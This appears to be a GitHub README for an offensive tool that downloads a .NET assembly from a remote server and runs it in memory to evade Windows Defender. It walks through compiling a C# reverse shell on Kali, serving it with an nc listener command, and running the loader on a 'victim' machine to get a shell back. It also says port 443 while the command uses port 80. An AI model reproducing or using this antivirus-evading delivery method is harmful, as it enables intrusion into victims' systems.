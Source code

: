 # DotnetFilelessExecution

This code fetches a dotnet assembly from a remote server, and executes it in memory, bypassing windows defender.

## Mechanics

In my kali machine, I compiled a c# reverse shell using mono. It outputs to a file called `winrev.exe`

Now, I have to serve the file using nc, and start a reverse listener on port 443.

```bash
nc -nvlp 80 < winrev.exe
```

Now on the victim side, I just have to run the compiled executable

```powershell
.\DotnetFilelessExecution.exe
```

And voila, we receive a shell connection back.

## Demonstration

A full video walkthrough will be soon uploaded on youtube.
